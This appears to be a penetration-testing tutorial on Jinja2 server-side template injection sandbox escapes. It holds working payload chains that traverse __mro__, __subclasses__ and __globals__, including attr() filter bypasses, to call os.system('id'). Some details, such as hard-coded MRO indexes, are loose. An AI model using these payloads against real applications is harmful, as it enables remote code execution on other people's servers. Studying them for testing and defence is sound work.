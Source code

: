 ```yaml
---
title: Mastering Jinja2 Sandbox Escapes Techniques
description: Explore key strategies for bypassing Jinja2 sandbox restrictions in SSTI,
  enabling command execution and vulnerability exploitation.
keywords:
- sandbox escape
- Jinja2
- SSTI
- Python
- __import__ bypass
- __builtins__ access
- __subclasses__
- attr() function
- sandboxing
---
```


# Sandbox Escapes

## Context

This article focuses on exploiting sandbox escapes in server-side template injection (SSTI) scenarios, particularly with Python's Jinja2 template engine. The reader should have prior understanding of sandboxing concepts, template engine mechanisms, and Python interpreter basics. Familiarity with the fundamentals of Server Side Template Injection is also assumed.

## Theory

### Sandboxing in Template Engines

Sandboxing aims to restrict the execution of template code to prevent access to potentially dangerous functions or objects in the system environment. Within SSTI sandboxes, these restrictions attempt to block access to Python built-ins, imports, and sensitive attributes to mitigate the risk of arbitrary code execution.

### Common Sandbox Escape Vectors in Jinja2/Python

Sandbox escapes take advantage of inadequate filtering or logical flaws to access restricted Python objects. Attackers may employ techniques such as attribute access chaining, class hierarchy traversal, or filter bypasses to reach and execute sensitive functionalities. 

### Key Techniques for Sandbox Escape

#### __import__ Bypass

This technique involves accessing Python's import mechanism through template expressions, thereby reaching functionalities that are otherwise restricted.

#### __builtins__ Access

By leveraging the context of a template, it's possible to access Python's built-in functions and objects, effectively bypassing sandbox restrictions.

#### __subclasses__ Enumeration

By traversing class hierarchies, an attacker can locate and instantiate classes which are powerful enough to perform system-level operations.

#### attr() Function Bypass

Utilizing the `attr()` function, attackers can dynamically access otherwise restricted attributes, bypassing certain access controls.

#### Filter/Whitelist Bypass

Through creative attribute or method access, attackers can circumvent blacklists or whitelists designed to block dangerous functionalities.

#### globals() Access Bypass

Gaining access to the global namespace can allow attackers to manipulate or execute arbitrary code, greatly expanding the potential attack surface.

### Class Hierarchy and MRO Exploitation

Python’s Method Resolution Order (MRO) and `__subclasses__` method facilitate the traversal of class relationships. By enumerating subclasses, attackers can locate classes like `file`, `os`, or `subprocess` and employ them for code execution.

## Practice

### Accessing __import__ via Jinja2 Expression

- **Step 1**: Enumerate subclasses to find `warnings.catch_warnings` or similar using the following payload:
  
    ```python
    {{ [].__class__.__mro__[2].__subclasses__() }}
    ```

- **Step 2**: Once identified, achieve command execution by escaping the sandbox and invoking system commands:

    ```python
    {{ [].__class__.__mro__[2].__subclasses__()[<index>].__init__.__globals__['__builtins__']['__import__']('os').system('id') }}
    ```

    Replace `<index>` with the correct subclass index.

### Bypassing Filters with attr() Function

- **Step 1**: Identify useful subclasses using this payload:

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    ```

- **Step 2**: Use `attr()` to bypass access restrictions and execute arbitrary commands:

    ```python
    {{ ''.__class__.__mro__[2].__subclasses__()[<index>]|attr('__init__')|attr('__globals__')|attr('__builtins__')|attr('__import__')('os').system('id') }}
    ```

### Accessing Built-ins via globals()

- **Step 1**: Directly access 'os' in globals with this payload:

    ```python
    {{''.__class__.__mro__[1].__subclasses__()[<index>].__init__.__globals__['os'].system('id')}}
    ```

### Chaining Whitelist Bypasses

- **Step 1**: Leverage template context to reach sensitive classes using:

    ```python
    {{ config.items()[0][1].__class__.__mro__[2].__subclasses__()[<index>].__init__.__globals__['os'].system('id') }}
    ```

## Tools

- **Burp Suite**
- **curl**
- **wfuzz** 

By following these approaches, a skilled attacker can effectively bypass sandbox restrictions in vulnerable template engines like Jinja2, allowing for arbitrary code execution and potentially full system compromise.
